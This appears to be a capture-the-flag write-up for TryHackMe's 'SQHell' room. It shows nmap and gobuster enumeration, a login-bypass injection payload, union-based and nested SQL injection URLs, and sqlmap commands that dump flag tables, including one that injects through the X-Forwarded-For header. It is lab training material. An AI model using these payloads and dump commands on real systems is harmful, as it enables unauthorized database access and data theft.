





# SQHell

Link to the room: https://tryhackme.com/room/sqhell

## Let's go!

Setting IP variable

```
export IP=10.10.68.254
```

## Enumeration

### Nmap scan 

```
Port 22 is open
Port 80 is open
```

Nothing out of the ordinary; let's dig deeper.

```
nmap -p22,80 -sV -sC -Pn -T4 -oA 10.10.68.254 10.10.68.254
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The ssh isn't useful without the credentials, so let's focus on the webserver for now. We'll run a gobuster scan while we visit the page.

### Gobuster 

```
/login                (Status: 200) [Size: 1763]
/post                 (Status: 200) [Size: 21]  
/register             (Status: 200) [Size: 2593]
/user                 (Status: 200) [Size: 21]  
```

## Visiting the webserver



### Login page



I tried the default credentials but to no avail. As the room revolves around SQL injection, let's fire up burp suite and send the request to the repeater to try some SQL injection for authorization bypass manually.

```
POST /login HTTP/1.1
Host: 10.10.68.254
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.68.254
Connection: close
Referer: http://10.10.68.254/login
Upgrade-Insecure-Requests: 1

username=admin'+or+'1'%3d'1&password=password
```

On the third try, managed to bypass the login and get the flag (you'll see it in the response). Don't forget to URL encode the request!
You can find the list of the different commands here: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/.

### Posts page

Visiting /post, we're greeted with `Missing parameter: id`. This shows that the page requires an id parameter. Playing around with it we can see that we're able to mess around with the page and it is indeed vulnerable to sql injection!

```
http://10.10.68.254/post?id=-1 union select 1,2,user(),4
```



Let's fire up sqlmap and beat it up. A good practice is to intercept the request using burp suite and then saving it. I saved the request as sqhell_post.request.

**Sqlmap for /post**

After several tries dumping the database and then tables, the final command is:

```
sqlmap -r sqhell_post.request --dbms mysql -D sqhell_5 -T flag --dump 
```

### Register page

This one is tricky; first, it won't let you register a new user. However, the fact that it takes in data leaves gives us some room to work in. Good thing our burp suite was running in the background, and we were able to identify the user-check parameter. 

```
http://10.10.68.254/register/user-check?username=a
```

Let's save the request as sqhell_register.request and can try sqlmap on this.

**Sqlmap for /register**

```
sqlmap -r sqhell_register.request --dbms mysql -D sqhell_3 -T flag --dump
```

### Terms and Conditions page

Before moving on to the users, let's take a look at the terms and conditions page, there we'll find a massive hint which states:

```
iii: We log your IP address for analytics purposes
```

This means that the site identifies the IP address of the user connecting to their web server through an HTTP header. X-Forwarded-For is an HTTP header field that is considered as a de facto standard for this purpose. For this, our sqlmap command will differ slightly as we'll be using the URL and header switch for this task.

**Sqlmap for /terms-and-conditions**

```
sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://10.10.68.254/ -D sqhell_1 -T flag --dump
```

### User login

This one, by far, was the most difficult one to came across. At first sight, it seems like any other SQL injection inside the `user?id=` parameter; however, after beating it up several times with sqlmap, I couldn't retrieve the flag. Good thing the ever so generous Mr Adam Langley gave us a following hint: *Well, dreams, they feel real while we're in them right?* 

Now, this is a quote from the movie inception. As any normal (arguable, but okay) pentester would do, we can google the term sql injection inception! This brings us to an article that refers to this notion of "inception" injection simply as Nested SQL injection. This gives us an idea of what to do next. Let's fire up burp and try Nested attack on the webserver.

Trying the following commands gives us an idea of where to start.

```
http://10.10.68.254/user?id=2 union all select 1,2,3 from users#
```



This shows that we were successfully able to overwrite the database. Let's nest another SQL injection inside it and try to retrieve the flag.

```
http://10.10.68.254/user?id=2 union all select "1 union select 1,flag,3,4 from flag-- -",1,2 from users#
```



Success, we were finally able to retrieve the flag!
